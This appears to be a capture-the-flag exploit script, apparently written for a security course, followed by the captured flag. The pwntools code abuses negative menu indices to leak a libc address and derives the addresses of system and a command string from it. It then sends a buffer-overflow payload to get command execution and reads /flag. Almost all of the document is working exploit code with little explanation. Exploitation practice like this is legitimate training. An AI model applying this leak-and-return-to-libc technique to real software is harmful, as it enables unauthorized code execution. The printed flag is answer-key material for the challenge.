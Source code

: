 ```python
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("cccc")

c.recvuntil('>')
c.sendline("3")
c.recvuntil('>')
c.sendline("3")

reply = c.recvuntil('>')
fputs = u32(reply[9:13])
system = fputs-0x23d40
#system = fputs-0x29370
log.info("Fputs at %s" % (hex(fputs)))

command = fputs+0x1008af

c.sendline("2")
c.recvuntil('>')
c.sendline("3")
c.recvuntil('>')
c.sendline("-1")
c.recvuntil('>')
c.sendline("-1")

c.recvuntil('>')
payload = "a"*8
payload += p32(system)
payload += p32(command)
c.send(payload)

c.recvuntil('>')
c.sendline("3")
c.recvuntil('>')
c.sendline("1")

time.sleep(1)
c.sendline("cat /flag")
reply = c.recvuntil('}')
flag = re.search("6447{(.*)}", reply).group(0)

log.success("Flag found: %s" % (flag))

c.close()
```
_Flag:_
'6447{401cb70c-1032-4ffe-8230-f0bbf81e8370}'
---

